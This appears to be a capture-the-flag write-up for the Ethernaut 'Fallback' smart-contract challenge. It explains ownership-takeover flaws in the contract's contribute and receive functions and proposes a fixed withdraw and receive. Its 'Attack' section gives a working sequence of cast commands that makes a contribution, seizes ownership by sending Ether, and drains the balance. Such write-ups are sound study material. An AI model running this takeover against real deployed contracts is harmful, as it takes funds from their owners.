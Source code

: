 # Fallback

1. Claim ownership of the contract
2. Reduce its balance to 0

## Vulnerability

### Ownership Takeover in `contribute` function

The `contribute` function changes the owner of the contract if the `msg.sender`'s contributions exceed the current owner's contributions. This could allow an attacker to take over the contract by simply contributing more than the current owner.

### Ownership Takeover in receive function

The `receive` function, which is called when the contract is sent Ether without data, changes the owner of the contract to `msg.sender` if `msg.sender` has made any contributions. This means that anyone who has made contributions can take over the contract by sending Ether to it.

### Potential for Denial of Service

The `withdraw` function transfers the entire balance of the contract to the owner. If the owner's address is a contract with a fallback function that reverts, or if the owner's address is unable to receive Ether for any reason, this could prevent the `withdraw` function from being executed successfully, effectively locking the funds in the contract.

### Lack of Input Validation

The `contribute` function requires that the value of Ether sent is less than 0.001 Ether, but there's no similar check in the `receive` function. This could lead to unexpected behavior if someone sends more than 0.001 Ether to the contract without data.

## Attack

```bash
1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL --legacy
3. cast send $CONTRACT_ADDRESS "contribute()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
4. cast call $CONTRACT_ADDRESS "getContribution()" --rpc-url $ALCHEMY_RPC_URL --from $ACCOUNT_ADDRESS --legacy
5. # {value: msg.value}("")
   cast send $CONTRACT_ADDRESS --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
6. cast send $CONTRACT_ADDRESS "withdraw()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

```javascript
function withdraw() public onlyOwner {
    require(address(this).balance > 0, "Insufficient funds");
    (bool success, ) = payable(owner).call{value: address(this).balance}("");
    require(success, "Transfer failed");
}

receive() external payable {
    require(msg.value > 0 && msg.value < 0.001 ether && contributions[msg.sender] > 0);
    if (contributions[msg.sender] + msg.value > contributions[owner]) {
        owner = msg.sender;
    }
    contributions[msg.sender] += msg.value;
}
```
